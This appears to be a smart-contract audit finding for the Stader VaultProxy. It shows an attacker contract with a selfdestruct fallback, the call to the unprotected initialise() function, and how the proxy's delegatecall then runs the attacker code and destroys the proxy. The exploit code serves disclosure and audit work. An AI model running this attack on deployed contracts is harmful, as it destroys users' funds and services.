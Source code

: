 #### Attack Vector description
1) Create AttackContract

An attacker creates an attacker contract:
```
contract AttackContract {
    function getValidatorWithdrawalVaultImplementation() public view returns(address) {
        return address(this);
    }
    function getNodeELRewardVaultImplementation() public view returns(address) {
	    return address(this);
    }
    fallback(bytes calldata _input) external payable returns(bytes memory _output) {
	    selfdestruct(address(0));
    }
}
```
2) Initialization

Attacker calls [VaultProxy.initialise()](https://github.com/code-423n4/2023-06-stader/blob/7566b5a35f32ebd55d3578b8bd05c038feb7d9cc/contracts/VaultProxy.sol#L20-L36):
```
function initialise(
        bool _isValidatorWithdrawalVault,
        uint8 _poolId,
        uint256 _id,
        address _staderConfig
    ) external {
        if (isInitialized) {
            revert AlreadyInitialized();
        }
        UtilLib.checkNonZeroAddress(_staderConfig);
        isValidatorWithdrawalVault = _isValidatorWithdrawalVault;
        isInitialized = true;
        poolId = _poolId;
        id = _id;
        staderConfig = IStaderConfig(_staderConfig);
        owner = staderConfig.getAdmin();
    }
```
with this params:
```
initialise(
    False,
    0, (any uint8 is ok)
    0, (any uint8 is ok)
    AttackContract address
)
```
3) Attack trigger

Then, attacker calls a non-existent function of VaultProxy.
This triggers [fallback function of VaultProxy](https://github.com/code-423n4/2023-06-stader/blob/7566b5a35f32ebd55d3578b8bd05c038feb7d9cc/contracts/VaultProxy.sol#L41-L50):
```
fallback(bytes calldata _input) external payable returns (bytes memory) {
        address vaultImplementation = isValidatorWithdrawalVault
            ? staderConfig.getValidatorWithdrawalVaultImplementation()
            : staderConfig.getNodeELRewardVaultImplementation();
        (bool success, bytes memory data) = vaultImplementation.delegatecall(_input);
        if (!success) {
            revert(string(data));
        }
        return data;
    }
```